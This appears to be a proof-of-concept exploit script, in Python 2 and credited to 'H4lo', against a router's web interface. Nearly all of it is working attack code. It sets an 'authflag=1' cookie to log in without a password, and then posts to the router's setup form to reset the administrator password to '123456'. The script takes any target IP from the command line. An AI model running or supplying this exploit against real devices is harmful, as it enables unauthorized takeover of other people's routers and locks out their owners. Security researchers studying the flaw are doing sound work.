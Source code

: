 POC
---

    #coding: utf-8
    #__author__: H4lo
    import requests
    import sys


    payload = "authflag=1"
    UA = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.75 Safari/537.36"
    headers = {
        "User-Agent": UA,
        "Cookie": payload
    }

    def exp(ip):
        info = """1. Login with no password\n2. Change administrator's password\n"""
        print info
        op = int(raw_input("Enter the options:"))
        if op == 1:
            url = "http://" + str(ip)+"/home.htm"
            try:
                res = requests.get(url,headers=headers,timeout=5)
                if "title.htm" in res.text:
                    print "[+] The router is vulnerable"
                else:
                    print "[-] The router is not vulnerable"
            except Exception as e:
                print str(e)

        elif(op == 2):
            url = "http://" + str(ip) + "/boafrm/formAwifiSwitchSetup"
            data = {
                "olduserpass":"1",
                "newpass":"123456",
                "confirmnewpass":"123456",
                "submit-url":"/password.htm"
            }
            try:
                res = requests.post(url=url,headers=headers,data=data,timeout=5)
                if "restartNow" in res.text:
                    print "[+] Password had be changed to 123456"
                else:
                    print "[-] Some error!"
            except Exception as e:
                print str(e)

        else:
            print "error options!"
    if __name__ == '__main__':
        ip = sys.argv[1]
        exp(ip)